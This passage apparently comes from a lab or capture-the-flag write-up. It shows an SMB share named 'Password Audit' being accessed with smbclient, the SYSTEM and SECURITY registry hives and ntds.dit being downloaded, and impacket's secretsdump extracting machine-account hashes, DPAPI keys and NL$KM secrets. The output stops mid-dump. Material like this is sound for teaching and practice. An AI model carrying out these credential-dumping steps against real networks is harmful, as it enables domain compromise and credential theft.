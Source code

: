 We can access this share via `smbclient`:

```
$ smbclient -U 'v.ventz' '\\192.168.219.175\Password Audit'      
Password for [WORKGROUP\v.ventz]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Oct  5 16:49:16 2021
  ..                                  D        0  Tue Oct  5 16:49:16 2021
  Active Directory                    D        0  Tue Oct  5 16:49:15 2021
  registry                            D        0  Tue Oct  5 16:49:16 2021
```

These directories had some rather interesting files:

```
smb: \registry\> dir
  .                                   D        0  Tue Oct  5 16:49:16 2021
  ..                                  D        0  Tue Oct  5 16:49:16 2021
  SECURITY                            A    65536  Mon Sep 27 18:45:20 2021
  SYSTEM                              A 16777216  Mon Sep 27 18:45:20 2021

smb: \Active Directory\> dir
  .                                   D        0  Tue Oct  5 16:49:16 2021
  ..                                  D        0  Tue Oct  5 16:49:16 2021
  ntds.dit                            A 25165824  Mon Sep 27 19:30:54 2021
  ntds.jfm                            A    16384  Mon Sep 27 19:30:54 2021
```

We can download all of these files using some basic SMB commands:

```
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

Once downloaded, we can attempt to dump stuff from these files:

```
$ secretsdump.py -security ../registry/SECURITY -system ../registry/SYSTEM -ntds ntds.dit LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:507fdb105d9322cf53420c95780adf5f2dcdac7ca14f8b37188370c916a3fa6f2a511bb284aeac71211c939a866a2b4cc02c408e1d242ad4f5cc8f7b85d2448c18d23fb47f7b9b543a6cfb8999e40037f23dbfd8690869753979d15fe61bdcddb0ccff3d20c275207ca93e844c3b5aa1f658198225b3e54f90e0b71aaf76ba32bb1b598d189b6696c27d04674fd4c4f2c09d0df2e59fe93850aa928be813be3bd659f0d2ecba6e34fb5a3880db8155cf77e21eb44d63e1ae65abcc2aa5bdfb6bfe85e8590329929522aae501ba86d8622918e37b41daef8a2b00e78440d13e88a31fc14714923bba6fb99e13c81b3020
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x85ec8dd0e44681d9dc3ed5f0c130005786daddbd
dpapi_userkey:0x22043071c1e87a14422996eda74f2c72535d4931
[*] NL$KM 
 0000   31 BF AC 76 98 3E CF 4A  FC BD AD 0F 17 0F 49 E7   1..v.>.J......I.
 0010   DA 65 A6 F9 C7 D4 FA 92  0E 5C 60 74 E6 67 BE A7   .e.......\`t.g..
 0020   88 14 9D 4D E5 A5 3A 63  E4 88 5A AC 37 C7 1B F9   ...M..:c..Z.7...
 0030   53 9C C1 D1 6F 63 6B D1  3F 77 F4 3A 32 54 DA AC   S...ock.?w.:2T..
NL$KM:31bfac76983ecf4afcbdad0f170f49e7da65a6f9c7d4fa920e5c6074e667bea788149d4de5a53a63e4885aac37c71bf9539cc1d16f636bd13f77f43a3254daac
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9298735ba0d788c4fc05528650553f94
```